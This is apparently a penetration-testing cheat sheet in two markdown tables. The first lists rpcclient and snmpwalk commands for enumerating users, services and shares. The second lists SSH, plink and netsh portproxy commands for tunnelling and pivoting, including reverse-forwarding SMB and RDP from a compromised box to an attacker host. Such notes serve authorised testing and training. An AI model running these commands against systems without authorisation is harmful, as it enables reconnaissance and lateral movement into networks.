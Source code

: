 
### Commonly Users and Service Enumeration Through Running RPC and SNMP Services

|for Example  |
| ------------- |
|rpcclient –U “” [target IP address] |
| > querydominfo |
| >enumdomusers|
| >queryuser msfadmin| 
| >queryuser msfadmin|
|snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25 #User|
|snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2 # Running Service|
| snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5 #Hostname |
|snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1 #Share Information|
|snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3 #Openning Port|



### Advanced SSH and Window PortProxy Tunneling and Port Forwarding

| for Example |
| ------------- |
|ssh -L 127.0.0.1:8080:127.0.0.1:80 remotehost |
|ssh -nNT -L 8000:localhost:3306 user@pivoting host #Local Port Forwarding |
|ssh -nNT -R 0.0.0.0:4000:192.168.1.101:631 user@pivot host |
|ssh -D 5000 -nNT user@pivoting host #Port 5000 is expected configure as browser proxy such as 127.0.0.1 5000|
|ssh -p 13339 -f -N j0hn@10.11.1.252  |
|ssh -N -f -D 8888 -p 22000 j0hn@192.168.13.252 |
|plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8 #winexe -U Administrator //127.0.0.1 "cmd.exe|
|plink.exe -l root -pw  -R 3389:127.0.0.1:3389 10.10.14.8 #rdesktop -U Administrator 127.0.0.1 |
|ssh -nNT -R 3389:localhost:3389 user@pivot host #Remote Port Forward |
|netsh interface portproxy add v4tov4 listenport=1111 Compromise Box=x.x.x.1 connectport=1111 connectaddress=Attacker|
|netsh interface portproxy add v4tov4 listenport=1111 listenaddress=x.x.x.1 connectport=1111 connectaddress=x.x.x.10 |
|netsh interface portproxy add v4tov4 listenport=9001 listenaddress=x.x.x.1 connectport=9001 connectaddress=x.x.x.100 |

